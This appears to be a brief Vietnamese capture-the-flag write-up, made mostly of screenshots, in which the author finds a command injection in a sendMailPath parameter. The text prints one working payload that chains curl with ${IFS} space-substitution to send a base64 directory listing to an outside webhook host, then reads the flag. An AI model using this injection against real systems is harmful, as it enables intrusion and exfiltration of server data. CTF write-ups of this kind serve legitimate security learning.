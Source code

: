 ![image](https://github.com/user-attachments/assets/81dcd987-491a-4a58-bd8f-4ca6826b483e)

Đây là giao diện:

![image](https://github.com/user-attachments/assets/af05f7aa-b242-4a8a-911a-6dd22b232df4)

Đây là req của nó:

![image](https://github.com/user-attachments/assets/5654bda1-e644-4a21-bc9d-12ae19b09f35)

Đọc src code thì để ý đến cái đường dẫn, có vẻ nó sẽ phản ứng với command injection

![image](https://github.com/user-attachments/assets/303f10e6-e485-4d1f-954e-14857f7bcd70)

Tôi dùng payload `sendMailPath=/usr/sbin/sendmail;curl${IFS}https://webhook.site/f652081d-e649-447e-be99-a8f449d837de?a=$(ls${IFS}/${IFS}|${IFS}base64)` thì được vì `${IFS}` có giá trị tương đương với space 

![image](https://github.com/user-attachments/assets/88afc80e-31b4-40fe-aba3-17336d6ed00b)

![image](https://github.com/user-attachments/assets/865184ae-d8e2-4c9f-a6b1-00aba5d03fd7)

![image](https://github.com/user-attachments/assets/a8449956-0994-4740-b0cf-07954753627e)

Giờ thì cat flag.txt là xong


